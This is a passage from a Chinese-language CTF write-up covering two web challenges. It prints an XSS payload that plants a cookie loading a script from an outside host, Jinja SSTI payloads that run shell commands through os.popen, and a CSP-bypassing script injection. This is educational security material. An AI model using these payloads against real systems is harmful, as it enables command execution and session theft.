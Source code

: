 配合主站的xss payload

```html
<script>xss = "<iframe id=\"sandbox\"></iframe><script src=//******/xss/test.js><\/script>";</script>
<script>document.cookie="username="+xss+"testxss;domain=.government.vip;path=\/;"</script>
<script>location.href='http://admin.government.vip:8000/';</script>
```

就可以获得flag了

参考：[wp](https://www.angelwhu.com/paper/2017/03/23/0ctf2017-web-topic-summary/#complicated-xss)  |  [wp2](https://www.cdxy.me/?p=764)  |  [wp3](https://www.40huo.cn/blog/0ctf-2017-writeup.html)  |  [知乎某处XSS+刷粉超详细漏洞技术分析](https://www.leavesongs.com/HTML/zhihu-xss-worm.html)

## [湖湘杯 2018]XmeO

### 预期 - SSTI

```
{''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls -r /*/*").read()')}}
```

发现web目录为`/home/XmeO`，然后grep搜索flag字符

```
{{''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("grep hxb2018{ /home/XmeO/*").read()')}}
```

### 非预期 - xss

通过查看进程发现运行着

![image-20220215203100071](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20220215203100071.png)

在/static/assets/js/me.js中和上面0CTF那个题有一样的沙盒情况，响应头

```
script-src 'self'
```

说明不允许内联脚本执行，也就是直接嵌套在`<script></script>`中的代码无法被执行，而`<script src='url'></script>`中的代码将被执行，而且必须同源（很经典的绕过方式，也可换成iframe

后台请求的url为`http://127.0.0.1:7443/admin/`，提交xss payload

```html
</div>
<script src=http://127.0.0.1:7443/show/591b111c-096d-11eb-97c4-0242ac110003></script>
<div>
```

获取到hint

```
/?hint=Try%20to%20get%20admin's%20page%20content
```
